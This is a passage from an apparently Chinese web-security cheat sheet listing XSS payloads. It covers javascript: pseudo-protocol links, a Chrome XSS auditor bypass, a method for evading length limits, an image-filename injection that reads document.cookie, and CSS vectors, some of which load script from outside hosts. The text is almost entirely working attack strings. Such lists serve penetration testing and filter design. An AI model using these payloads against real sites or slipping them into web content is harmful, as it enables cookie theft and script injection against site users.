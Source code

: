 ------------

3.2.9.4. 伪协议
```
<a href=javascript:/0/,alert(%22M%22)>M</a>
<a href=javascript:/00/,alert(%22M%22)>M</a>
<a href=javascript:/000/,alert(%22M%22)>M</a>
<a href=javascript:/M/,alert(%22M%22)>M</a>
```

------------


3.2.9.5. Chrome XSS auditor bypass
```
?param=https://&param=@z.exeye.io/import%20rel=import%3E
<base href=javascript:/M/><a href=,alert(1)>M</a>
<base href=javascript:/M/><iframe src=,alert(1)></iframe>
```

------------

3.2.9.6. 长度限制
```
<script>s+="l"</script> 
\... 
<script>eval(s)</script>
```

------------


3.2.9.7. jquery sourceMappingURL

```
</textarea><script>var
a=1//@ sourceMappingURL=//xss.site</script>
```

------------

3.2.9.8. 图片名
```
"><img src=x onerror=alert(document.cookie)>.gif
```

------------


3.2.9.9. 过期的payload
src=javascript:alert基本不可以用 
css expression特性只在旧版本ie可用


------------

3.2.9.10. css
```
<div style="background-image:url(javascript:alert(/xss/))"> 
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```
